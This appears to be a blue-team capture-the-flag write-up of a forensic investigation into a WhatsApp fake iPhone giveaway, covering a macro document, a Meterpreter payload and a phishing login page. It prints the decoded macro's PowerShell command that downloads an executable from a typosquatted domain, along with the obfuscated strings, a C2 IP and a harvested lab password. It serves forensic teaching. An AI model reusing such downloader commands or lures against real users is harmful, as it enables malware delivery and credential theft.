

# Phishy Lab

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/phishy/](https://cyberdefenders.org/blueteam-ctf-challenges/phishy/)

Suggested tools: FTK Imager, Autopsy, Registry Explorer, DB Browser for SQLite, `browsinghistoryview`, `passwordfox`, WhatsApp viewer, `oledump`, VirusTotal, HybridAnalysis

Tactics: Initial Access, Execution, Command and Control

# Scenario

A company’s employee joined a fake iPhone giveaway. Our team took a disk image of the employee's system for further analysis. As a SOC analyst, you are tasked to identify how the system was compromised.

# Questions

Q1- What is the hostname of the victim machine?

Answer: `WIN-NF3JQEU4G0T`

Reason: Investigation of the disk image began by mounting the FTK AD1 custom content image using `4n6mount`, which exposed the captured Windows filesystem read-only at the mount point. The victim system's hostname was recovered from the `SYSTEM` registry hive by querying the `ComputerName` key under `ControlSet001`, which returned a value of `WIN-NF3JQEU4G0T` with the key itself last modified `2021-02-15 22:32:29`, consistent with initial system provisioning rather than incident activity.

```bash
$ reglookup -p "ControlSet001/Control/ComputerName/ComputerName" ./Windows/System32/config/SYSTEM
PATH,TYPE,VALUE,MTIME
/ControlSet001/Control/ComputerName/ComputerName,KEY,,2021-02-15 22:32:29
/ControlSet001/Control/ComputerName/ComputerName/,SZ,mnmsrvc,
/ControlSet001/Control/ComputerName/ComputerName/ComputerName,SZ,WIN-NF3JQEU4G0T,
```

Q2- What is the messaging app installed on the victim machine?

Answer: WhatsApp

Reason: Enumeration of the victim user profile's `AppData\Roaming` directory revealed a `WhatsApp` folder alongside the standard `Identities`, `Microsoft`, and `Mozilla` entries, confirming WhatsApp Desktop was installed under the user account `Semah`. This is significant given the WhatsApp Viewer tool listed for this lab, indicating the messaging app is likely the vector through which the fake iPhone giveaway lure was delivered or discussed.

```bash
$ ls ./Users/Semah/AppData/Roaming
Identities  Microsoft  Mozilla  WhatsApp
```

Q3- The attacker tricked the victim into downloading a malicious document. Provide the full download URL.

Answer: `hxxp://appIe.com/IPhone-Winners.doc`

Reason: Analysis of the WhatsApp `msgstore.db` database, recovered from the victim user profile's `AppData\Roaming\WhatsApp\Databases` directory and reviewed via DB Browser for SQLite's `legacy_available_messages_view`, revealed a WhatsApp conversation with contact `21698231645@s.whatsapp.net` in which the attacker impersonated an official notification about an iPhone giveaway competition. The conversation shows the victim being told at `1616186562906` "You registered in apple competition" and asking at `1616186580000` "oh hello, did I win?", after which the attacker replied at `1616186629009` with the message "We listed the 5 winners in this document" containing a link to `hxxp://appIe[.]com/IPhone-Winners.doc`. The domain is a typosquat of `apple.com`, substituting a capital `I` for the lowercase `l`, designed to visually impersonate the legitimate Apple domain and lend credibility to the lure.

```bash
$ file ./Users/Semah/Downloads/IPhone-Winners.doc 
./Users/Semah/Downloads/IPhone-Winners.doc: Composite Document File V2 Document, Little Endian, Os: Windows, Version 6.2, Code page: 1252, Template: Normal.dotm, Revision Number: 1, Name of Creating Application: Microsoft Office Word, Create Time/Date: Thu Jul 23 01:12:00 2020, Last Saved Time/Date: Sat May  1 18:56:00 2021, Number of Pages: 1, Number of Words: 17, Number of Characters: 101, Security: 0
```



Q4- Multiple streams contain macros in the document. Provide the number of the highest stream.

Answer: 10

Reason: Static analysis of the malicious document `IPhone-Winners.doc`, downloaded from the WhatsApp-delivered link and located under the victim profile's `Downloads` folder, was performed with `oledump` to enumerate its OLE compound file streams without executing any macro content. The output identified two streams flagged with an `M` indicator denoting VBA macro code, `Macros/VBA/eviliphone` at stream 9 and `Macros/VBA/iphoneevil` at stream 10, with stream 10 being the highest-numbered macro-containing stream in the document.

```bash
$ oledump ./Users/Semah/Downloads/IPhone-Winners.doc 
  1:       114 '\x01CompObj'
  2:      4096 '\x05DocumentSummaryInformation'
  3:      4096 '\x05SummaryInformation'
  4:      8473 '1Table'
  5:       501 'Macros/PROJECT'
  6:        68 'Macros/PROJECTwm'
  7:      3109 'Macros/VBA/_VBA_PROJECT'
  8:       800 'Macros/VBA/dir'
  9: M    1170 'Macros/VBA/eviliphone'
 10: M    5581 'Macros/VBA/iphoneevil'
 11:      4096 'WordDocument'
```

Q5- The macro executed a program. Provide the program name?

Answer: Powershell

Reason: Deobfuscation of the VBA macro embedded in `IPhone-Winners.doc`, extracted via `olevba --deobf` from OLE stream `Macros/VBA/eviliphone`, revealed a Base64-encoded, UTF-16LE-encoded blob consistent with a PowerShell `-EncodedCommand` payload. Decoding the blob (Base64 decode followed by UTF-16LE text decode) recovered the underlying command `invoke-webrequest -Uri '<http://appIe.com/Iphone.exe>' -OutFile 'C:\Temp\IPhone.exe' -UseDefaultCredentials`, confirming the macro invoked PowerShell to download a second-stage executable, `IPhone.exe`, from the same typosquatted `appIe[.]com` domain used in the initial WhatsApp lure, saving it to `C:\Temp\IPhone.exe`.

```bash
$ olevba --deobf ./Users/Semah/Downloads/IPhone-Winners.doc
olevba 0.60.2 on Python 3.14.6 - http://decalage.info/python/oletools
===============================================================================
FILE: ./Users/Semah/Downloads/IPhone-Winners.doc
Type: OLE
-------------------------------------------------------------------------------
VBA MACRO eviliphone.cls 
in file: ./Users/Semah/Downloads/IPhone-Winners.doc - OLE stream: 'Macros/VBA/eviliphone'

[...]

|VBA string|aQBuAHYAbwBrAGUALQB3|Chr(97) & Chr(81) & Chr(66) & Chr(117) &     |
|          |AGUAYgByAGUAcQB1AGUA|Chr(65) & Chr(72) & Chr(89) & Chr(65) &      |
|          |cwB0ACAALQBVAHIAaQAg|Chr(98) & Chr(119) & Chr(66) & Chr(114) &    |
|          |ACcAaAB0AHQAcAA6AC8A|Chr(65) & Chr(71) & Chr(85) & Chr(65) &      |
|          |LwBhAHAAcABJAGUALgBj|Chr(76) & Chr(81) & Chr(66) & Chr(51) &      |
|          |AG8AbQAvAEkAcABoAG8A|Chr(65) & Chr(71) & Chr(85) & Chr(65) &      |
|          |bgBlAC4AZQB4AGUAJwAg|Chr(89) & Chr(103) & Chr(66) & Chr(121) &    |
|          |AC0ATwB1AHQARgBpAGwA|Chr(65) & Chr(71) & Chr(85) & Chr(65) &      |
|          |ZQAgACcAQwA6AFwAVABl|Chr(99) & Chr(81) & Chr(66) & Chr(49) &      |
|          |AG0AcABcAEkAUABoAG8A|Chr(65) & Chr(71) & Chr(85) & Chr(65) &      |
|          |bgBlAC4AZQB4AGUAJwAg|Chr(99) & Chr(119) & Chr(66) & Chr(48) &     |
|          |AC0AVQBzAGUARABlAGYA|Chr(65) & Chr(67) & Chr(65) & Chr(65) &      |
|          |YQB1AGwAdABDAHIAZQBk|Chr(76) & Chr(81) & Chr(66) & Chr(86) &      |
|          |AGUAbgB0AGkAYQBsAHMA|Chr(65) & Chr(72) & Chr(73) & Chr(65) &      |

Decoded (Base64 -> UTF-16LE):
invoke-webrequest -Uri 'http://appIe[.]com/Iphone.exe' -OutFile 'C:\Temp\IPhone.exe' -UseDefaultCredentials
```


Q6- The macro downloaded a malicious file. Provide the full download URL.

Answer: `hxxp://appIe.com/Iphone.exe`

Reason: The deobfuscated PowerShell command embedded in the macro's Base64/UTF-16LE-encoded payload directed an `Invoke-WebRequest` call to retrieve a second-stage executable from the same typosquatted domain used in the initial WhatsApp lure, saving the result to `C:\Temp\IPhone.exe` on the victim host.

Q7- Where was the malicious file downloaded to? (Provide the full path)

Answer: `C:\Temp\IPhone.exe`

Reason: The `-OutFile` parameter in the deobfuscated PowerShell command specifies the destination path for the downloaded second-stage executable, placing it directly under the Temp directory on the system drive.

Q8- What is the name of the framework used to create the malware?

Answer: Metasploit

Reason: Hash lookup of the downloaded second-stage executable, `Temp/IPhone.exe` (MD5 `7c827274c062374e992eb8f33d0c188c`), against VirusTotal returned a 63/68 malicious detection rate with the popular threat label `trojan.swrort/meterpreter` and family labels including `meterpreter` and `swrort`. The `meterpreter` classification identifies the payload as a Meterpreter stager/agent, the advanced in-memory payload delivered by the Metasploit Framework, confirming Metasploit as the tool used to generate this malware.

```bash
$ md5sum Temp/IPhone.exe    
7c827274c062374e992eb8f33d0c188c  Temp/IPhone.exe
```


Q9- What is the attacker's IP address?

Answer: `155.94.69.27`

Reason: Behavioral/relations data associated with the malicious `IPhone.exe` sample on VirusTotal identified an embedded C2 (command and control) IP address of `155.94.69.27`, registered under ASN `15204` in the United States, consistent with the callback destination configured into the Meterpreter payload for post-exploitation communication with the attacker's Metasploit listener.


Q10- The fake giveaway used a login page to collect user information. Provide the full URL of the login page?

Answer: `hxxp://appIe.competitions.com/login.php`

Reason: Querying the `moz_places` table of the victim's Firefox `places.sqlite` history database for entries containing "login" identified a visited URL of `http://appIe.competitions.com/login.php` (`url_hash` 47357933570733, `guid` aebl2PnFX1cI), recorded with 2 visits and a `last_visit_date` of `1616195090670000` (Firefox `PRTime`, microseconds since the Unix epoch). This confirms the victim navigated to a credential-harvesting login page hosted on a second typosquatted subdomain of the same `appIe[.]com` phishing infrastructure used throughout the campaign.

```bash
SELECT * from moz_places WHERE url LIKE '%login%';

id=17, url=http://appIe.competitions.com/login.php, visit_count=2, last_visit_date=1616195090670000, guid=aebl2PnFX1cI, url_hash=47357933570733
```

Q11- What is the password the user submitted to the login page?

Answer: `GacsriicUZMY4xiAF4yl`

Reason: Decryption of the victim's Firefox saved credentials, recovered from the `logins.json` file in profile `pyb51x2n.default-release` and decoded via `dumpzilla --Password` using the profile's paired NSS key material, returned a stored credential pair for `https://appIe.com`: username `Semah` and password `GacsriicUZMY4xiAF4yl`. This confirms the victim submitted credentials directly to the attacker-controlled phishing login page at `hxxp://appIe.competitions[.]com/login.php`, and Firefox subsequently offered to save the entered password locally, which is how it was recovered from the browser profile rather than from network capture.

```bash
# dumpzilla --Password ./pyb51x2n.default-release                                                      

=============================================================================================================
== Decode Passwords     
============================================================================================================
=> Source file: /root/temp/pyb51x2n.default-release/logins.json
=> SHA256 hash: 5eb1ecaca45ffc39de590feb7a7a889100b8b5654235b6328575011f23bfc081

Web: https://appIe.com
Username: Semah
Password: GacsriicUZMY4xiAF4yl

=============================================================================================================
== Passwords            
============================================================================================================
=> Source file: /root/temp/pyb51x2n.default-release/logins.json
=> SHA256 hash: 5eb1ecaca45ffc39de590feb7a7a889100b8b5654235b6328575011f23bfc081

Web: https://appIe.com
User field: 
Password field: 
User login (crypted): MDIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECPv8/hjfk/FqBAhlG5ugi3V0OQ==
Password login (crypted): MEIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECASt9rmLD9faBBgMerISXTJ9HGCAoZVNAixRoVb1GERODeo=
Created: 2021-04-30 06:28:24
Last used: 2021-04-30 06:28:24
Change: 2021-04-30 06:28:24
Frequency: 1

===============================================================================================================
== Total Information
==============================================================================================================

Total Decode Passwords     : 1
Total Passwords            : 1
```

# Attack Chain

| Time (UTC) | Stage | Detail | MITRE |
| --- | --- | --- | --- |
| 2021-03-19 20:42:42 UTC | Initial Contact | Attacker messaged victim via WhatsApp (`21698231645@s.whatsapp.net`) claiming they were "registered in apple competition" | T1566.003 |
| 2021-03-19 20:43:00 UTC | Victim Engagement | Victim replied "oh hello, did I win?" | T1566.003 |
| 2021-03-19 20:43:49 UTC | Malicious Link Delivery | Attacker sent link to `hxxp://appIe[.]com/IPhone-Winners.doc`, a typosquat of apple[.]com | T1566.003 |
| (shortly after) | Malicious File Download | Victim downloaded `IPhone-Winners.doc` to `Downloads` folder | T1204.002 |
| (on open) | Macro Execution | VBA macro in stream `Macros/VBA/eviliphone` executed obfuscated PowerShell via `-EncodedCommand` | T1059.005 / T1059.001 |
| (on execution) | Second-Stage Download | PowerShell ran `Invoke-WebRequest` to fetch `hxxp://appIe[.]com/Iphone.exe`, saved to `C:\Temp\IPhone.exe` | T1105 |
| (on execution) | Payload Execution / C2 | `IPhone.exe` identified as a Metasploit Meterpreter payload (63/68 VT detections); established callback to attacker IP `155.94.69.27` | T1071.001 |
| 2021-03-19 23:04:50 UTC | Credential Harvesting | Victim visited fake login page `hxxp://appIe.competitions[.]com/login.php` (Firefox history) | T1566.002 |
| (credentials saved to browser, dated 2021-04-30 06:28:24 in `logins.json`  | Credential Capture | Victim submitted and Firefox saved credentials: username `Semah`, password `GacsriicUZMY4xiAF4yl` for `https://appIe[.]com` | T1552.001 |

## Attack Tree

```bash
WIN-NF3JQEU4G0T (victim: Semah)
│
├── [Initial Access] WhatsApp message from 21698231645@s.whatsapp.net
│   │   ← "You registered in apple competition" (2021-03-19 20:42:42 UTC)
│   └── Link sent: hxxp://appIe[.]com/IPhone-Winners.doc (2021-03-19 20:43:49 UTC)
│
├── [Execution] IPhone-Winners.doc downloaded → Downloads folder
│   └── VBA macro (stream 9: eviliphone) triggers on open
│       └── Base64/UTF-16LE encoded PowerShell -EncodedCommand
│           └── Invoke-WebRequest → hxxp://appIe[.]com/Iphone.exe
│               └── Saved to C:\Temp\IPhone.exe
│
├── [Command and Control] IPhone.exe executed
│   │   ← Identified as Metasploit Meterpreter (63/68 VT, trojan.swrort/meterpreter)
│   └── Callback to attacker C2: 155.94.69.27 (ASN 15204, US)
│
└── [Credential Access] Fake giveaway login page
    ├── hxxp://appIe.competitions[.]com/login.php visited (2021-03-19 23:04:50 UTC)
    └── Credentials submitted and saved by Firefox
        ← Semah : GacsriicUZMY4xiAF4yl (https://appIe[.]com)
```

# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Host Indicators | Hostname | `WIN-NF3JQEU4G0T` |
|  | Victim user | `Semah` |
| Delivery | Messaging platform | WhatsApp |
|  | Attacker WhatsApp JID | `21698231645@s.whatsapp.net` |
| Network | Lure domain | `appIe[.]com` (typosquat of [apple.com](http://apple.com/)) |
|  | Credential-harvesting domain | `appIe.competitions[.]com` |
|  | C2 IP | `155.94.69.27` (ASN 15204, US) |
| URLs | Malicious document | `hxxp://appIe[.]com/IPhone-Winners.doc` |
|  | Second-stage payload | `hxxp://appIe[.]com/Iphone.exe` |
|  | Fake login page | `hxxp://appIe.competitions[.]com/login.php` |
| Dropped File | Malicious document | `IPhone-Winners.doc` (`./Users/Semah/Downloads/`) |
|  | Second-stage payload | `C:\Temp\IPhone.exe` |
|  | Payload MD5 | `7c827274c062374e992eb8f33d0c188c` |
| Malware Classification | Threat label | `trojan.swrort/meterpreter` |
|  | Framework | Metasploit |
|  | Family labels | `swrort`, `meterpreter`, `cryptz` |
|  | VT detection | `63/68` |
| Credential Access | Username | `Semah` |
|  | Password | `GacsriicUZMY4xiAF4yl` |
|  | Target site | `https://appIe[.]com` |

# Lab Insights

- **Homograph typosquatting is a low-cost, high-yield lure.** A single-character substitution (capital `I` for lowercase `l`) was enough to spoof Apple's domain across every stage of this campaign, the initial WhatsApp message, the document download link, the second-stage payload URL, and the credential-harvesting page. Reusing the same spoofed brand across the entire chain rather than varying infrastructure kept the operation simple while still defeating a casual visual check at each step.
- **Trusted messaging channels bypass email-centric defenses.** Delivering the lure over WhatsApp instead of email sidestepped typical corporate phishing controls (spam filtering, attachment sandboxing, link rewriting) that assume email as the initial access vector. Any environment monitoring only email-based delivery paths would have missed this intrusion entirely at the point of initial contact.
- **Off-the-shelf offensive tooling remains effective when trust is the actual attack surface.** The final payload was an unmodified Metasploit Meterpreter stager, easily flagged by 63/68 AV engines, yet it succeeded because the social engineering upstream (fake giveaway, urgency, brand impersonation) got the victim to willingly execute it. The weakest control in this chain wasn't detection, it was the human decision to open an unsolicited "prize" document.
- **Automated AI-assisted analysis tools can be actively misled by adversarial artifacts.** VirusTotal's AI-generated code summary described the payload as a benign benchmarking utility despite the multi-engine verdict and threat family labels correctly identifying it as Meterpreter, a reminder that AI-driven triage layers can be fooled by planted decoy strings and metadata, and should never be trusted over direct signature/behavioral detections during an investigation.
- **Legacy forensic tooling introduces its own investigative friction.** Multiple tools in this lab (`dumpzilla` in particular) carried environment-specific bugs unrelated to the evidence itself, a hardcoded relative library path caused a false "library not found" error that had nothing to do with missing dependencies. Tracing tool failures back to root cause, rather than accepting a misleading error message at face value, was itself a meaningful part of this investigation.